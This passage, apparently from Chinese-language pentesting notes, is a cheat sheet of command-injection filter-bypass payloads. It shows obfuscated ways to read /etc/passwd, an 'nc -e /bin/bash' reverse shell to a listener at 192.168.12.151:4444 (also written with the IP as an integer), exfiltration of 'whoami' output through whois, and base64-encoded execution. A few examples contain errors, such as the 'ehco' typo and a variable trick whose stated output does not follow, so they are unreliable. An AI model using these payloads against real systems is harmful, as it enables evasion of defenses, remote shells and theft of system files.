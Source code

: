   ```
| command1 \|\| command2 | 先后执行1和2失败才执行2           |
| command1 \| command2   | 将1执行的结果传递给2              |
| command1 ; command2    | 先后执行1和2,无论1是否成功执行    |

> 命令执行变形

- `*`代表通配符[0,无穷]
- `?`代表[一定有一个]任意字符
- []同样代表[一定有一个在括号内]的字符(非任意字符).例如[abcd]随机一个
- [-]若有减号在中括号内时,代表[在编码顺序内的所有字符].例如[0-9]代表0-9之间的所有数字,因为数字的编码是连续的
- [^]若中括号内的第一个字符为指数符号`^`,那表示[反向选择],例如`[^abc]`代表一定有一个字符,只要是`非`a,b,c的其它字符就接收的意思

```cmd
//执行 cat /etc/passwd 读取passwd文件
//变形:/?in/?at/?tc/?ass?d  

//执行反弹shell时, nc -e /bin/bash 192.168.12.151 4444
//变形------------/???/nc -e/???/b???h 192.168.12.151 4444
//还可ip转数字,数字转ip
//变形------------/???/nc -e/???/b???h 3232238743 4444

//单引号----------------'n'c -e /'b'i'n'/b'a's'h' 1'9'2.1'6'8.1'5'1 '4'44'4'

//双引号----c"a"t /"e""t"c/"p"as"s"w"d"
//反斜杠----c\a\t /e\t\c/p\as\swd
//组合------c'a't /??c/\p?\s?''?"d"

//未初始化变量
echo $a $b $c
cat$a /etc$a/passwd$a
a=w;b=hoa;c=mi;$a$b$b  --->输出root

//使用没有被waf过滤的命令
nc -lnvp 4444
靶机:whois -h 192.168.1.1 -p 4444 'whoami'

//反引号执行命令
`whoami`
ichunqiu `whoami` ichunqiu

//大括号,重定向符号绕过空格过滤
{cat,/etc/passwd}
{ls,-al}
l<>s
cat<>/etc/passwd

//base64编码
ehco whoami|base64  -->  d2hvYW1pCg==
`echo d2hvYW1pCg== | base64 -d`

//linux默认字符命令
${#PATH:5:1}${#PATH:2:1}
```

